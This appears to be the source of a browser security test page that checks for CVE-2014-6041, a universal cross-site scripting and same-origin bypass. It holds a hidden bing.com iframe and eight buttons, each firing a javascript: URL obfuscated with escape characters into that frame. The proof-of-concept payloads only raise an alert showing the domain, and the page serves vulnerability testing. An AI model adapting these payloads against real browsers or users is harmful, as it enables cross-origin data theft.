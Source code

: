 ```yaml
---
layout: default
title: SOP Bypass - Testcase 9
permalink: /sop/new/9
---
```


Testing for SOP bypass using escape characters
<iframe height="0" width="0" name="CVE-2014-6041" src="https://web.archive.org/web/20180831120259if_/https://www.bing.com/" style="display:none;" data-ruffle-polyfilled=""></iframe>

<input type="button" id="btn_test" class="test" value="Run Test Case 1" onclick="window.open('\u0000javascript:test=\'Accessed property of \'+document.domain+\'. Your browser is vulnerable to UXSS\'; alert(test);','CVE-2014-6041');">
<input type="button" id="btn_test" class="test" value="Run Test Case 2" onclick="window.open('jav\nascript:test=\'Accessed property of \'+document.domain+\'. Your browser is vulnerable to UXSS\'; alert(test);','CVE-2014-6041');">
<input type="button" id="btn_test" class="test" value="Run Test Case 3" onclick="window.open('jav\rascript:test=\'Accessed property of \'+document.domain+\'. Your browser is vulnerable to UXSS\'; alert(test);','CVE-2014-6041');">
<input type="button" id="btn_test" class="test" value="Run Test Case 4" onclick="window.open('javas\tcript:test=\'Accessed property of \'+document.domain+\'. Your browser is vulnerable to UXSS\'; alert(test);','CVE-2014-6041');">
<input type="button" id="btn_test" class="test" value="Run Test Case 5" onclick="window.open('javas\fcript:test=\'Accessed property of \'+document.domain+\'. Your browser is vulnerable to UXSS\'; alert(test);','CVE-2014-6041');">
<input type="button" id="btn_test" class="test" value="Run Test Case 6" onclick="window.open('javasc\bript:test=\'Accessed property of \'+document.domain+\'. Your browser is vulnerable to UXSS\'; alert(test);','CVE-2014-6041');">
<input type="button" id="btn_test" class="test" value="Run Test Case 7" onclick="window.open('java\vscript:test=\'Accessed property of \'+document.domain+\'. Your browser is vulnerable to UXSS\'; alert(test);','CVE-2014-6041');">
<input type="button" id="btn_test" class="test" value="Run Test Case 8" onclick="window.open('java\0script:test=\'Accessed property of \'+document.domain+\'. Your browser is vulnerable to UXSS\'; alert(test);','CVE-2014-6041');">

**Note:**
If page loads popup and displays an alert box "Accessed Property of bing.com, your browser is vulnerable to SOP bypass."
